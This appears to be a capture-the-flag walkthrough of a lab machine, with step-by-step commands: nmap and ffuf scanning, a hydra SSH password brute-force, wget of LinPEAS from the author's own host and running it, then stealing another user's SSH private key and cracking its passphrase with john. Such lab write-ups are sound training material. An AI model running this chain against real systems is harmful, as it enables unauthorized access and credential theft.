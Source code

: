 10.10.162.125
![#f03c15](hi) `#f03c15`

###### open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

###### ping

```
$ ping 10.10.159.226
```


###### nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```
![src:index](basicpentesting_1.png)
                                                                                                                                                                                         
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

![src:index](basicpentesting_2.png)

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)
![src:index](basicpentesting_4.png)


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)
![src:index](basicpentesting_6.png)
###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)


###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```
![src:index](basicpentesting_10.png)

###### found possible private SSH keys 
###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak
![src:index](basicpentesting_12.png)
###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_13.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa
![src:index](basicpentesting_11.png)

###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_15.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_16.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```
![src:index](basicpentesting_17.png)

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_18.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_19.png)












